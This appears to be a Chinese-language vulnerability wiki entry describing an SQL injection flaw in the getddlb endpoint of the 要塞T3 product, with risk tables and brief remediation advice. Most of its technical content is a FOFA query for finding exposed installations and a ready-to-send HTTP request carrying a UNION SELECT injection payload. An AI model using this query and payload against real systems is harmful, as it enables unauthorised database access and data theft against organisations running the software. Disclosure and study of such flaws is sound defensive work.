

#  要塞T3 getddlb SQL注入漏洞

# 漏洞描述

要塞T3 getddlb处存在 SQL注入漏洞，攻击者可以利用该漏洞执行任意 SQL 查询，可能导致敏感数据泄露或数据库被完全控制。

# 影响版本

要塞T3

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="T3/MAIN/Login.aspx"

POC/EXP：

```
GET /T3/Ajax/Ajax_getddlb.ashx?typecode=11%27%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20%40%40version%29--%20aEdt HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=rkpt0wdmsypmz0aaer2cj3cw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36


```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
